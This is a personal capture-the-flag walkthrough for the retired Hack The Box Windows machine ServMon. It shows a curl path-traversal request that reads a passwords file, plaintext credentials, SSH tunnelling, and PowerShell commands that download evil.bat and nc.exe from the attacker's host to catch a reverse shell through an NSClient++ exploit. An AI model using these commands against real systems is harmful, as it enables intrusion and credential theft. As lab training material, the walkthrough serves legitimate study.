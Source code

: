 ```yaml
---
tags:
  - HTB
  - Retired
  - Windows
  - nagios
  - proxychains
  - easy
creation date: 2018-09-29
Date Completed: 2024-08-24
CVEs: CVE-2019-20085
URL: 
IP: 10.129.227.77
New Tools: rlwrap
---
```

## Information Gathering


```
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
22/tcp    open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp    open  http
|_http-title: Site doesn't have a title (text/html).
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5666/tcp  open  tcpwrapped
6063/tcp  open  x11?
6699/tcp  open  napster?
8443/tcp  open  ssl/https-alt
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     iday
|_    :Saturday
| http-title: NSClient++
|_Requested resource was /index.html
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

```
ftp anonymous@$IP
```
discover users and files with hints

https://github.com/daffainfo/my-nuclei-templates/blob/main/CVE-2019-20085.yaml

```
curl http://10.129.227.77/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FNathan%2FDesktop%2FPasswords.txt -o passwords.txt
```

password spray to get:
nadine
L1k3B1gBut7s@W0rk
ssh -D 9050 nadine@10.129.63.164


```
C:\Program Files\NSClient++> nscp web -- password --display
```
ew2x6SsGTxjRwXOT

https://www.exploit-db.com/exploits/46802


To access website through proxychains4
add line to proxychains4.conf
    socks5 127.0.0.1 9050
Add socks proxy to foxyproxy
    Type: SOCKS5    Hostname: 127.0.0.1 Port: 9050
    
Browse to website
    https://127.0.0.1:8443
    
        
```
iwr http://10.10.15.64:8000/evil.bat -outfile evil.bat 
iwr http://10.10.15.64:8000/nc.exe -outfile nc.exe
```

Follow the exploit and restart the service using the web interface (Control > Restart)

https://0xdf.gitlab.io/2020/06/20/htb-servmon.html#priv-nadine--system


```
rlwrap nc -lnvp 1234
```





